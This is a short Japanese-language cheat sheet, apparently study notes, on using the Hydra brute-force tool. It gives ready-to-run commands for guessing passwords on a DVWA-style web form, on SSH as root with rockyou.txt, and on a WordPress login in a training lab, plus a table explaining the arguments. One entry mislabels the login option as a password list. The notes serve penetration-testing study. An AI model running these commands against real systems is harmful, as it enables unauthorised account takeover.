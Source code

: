 # Hydra

1. 様々なプロトコルに対応したBruteForce Attackツール
2. ワードリスト　`/usr/share/wordlists/metasploit`
3. コマンド例

``` shell
    hydra 192.168.XXX.XXX -s 80 -l gordonb -P /usr/share/wordlists/metasploit/burnett_top1024.txt http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=セッションID;security=low:F=Username and/or password incorrect."
```

``` shell
    # sshでrockyou.txtを使ったパスワード総当たり
    hydra -l root -P rockyou.txt XXX.YYY.ZZZ.III ssh
```

| command                                                  | summary                                     |
| -------------------------------------------------------- | ------------------------------------------- |
| Hydra                                                    | hydraコマンド                               |
| `192.168.XXX.XXX -s 80`                                   | webアプリのアドレスとポート                 |
| `-l gordonb`                                             | パスワードリスト                            |
| `-P /usr/share/wordlists/metasploit/burnett_top1024.txt` | パスワードリスト                            |
| `/vulnerabilities/brute/`                                | リクエスト先のリソース                      |
| `:username=^USER^&password=^PASS^&Login=Login`           | クエリストリングの^USER^,^PASS^が変数に相当 |
| `:H=Cookie: PHPSESSID=セッションID;security=low`         | リクエストのヘッダ(Cookie)                  |
| `:F=Username and/or password incorrect."`                | ログイン失敗時のメッセージ |

``` shell
    #wordpressへのブルートフォース
     sudo hydra training -s 80 -l admin -P /home/student/rockyou_mini.txt http-form-post "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:incorrect"
```
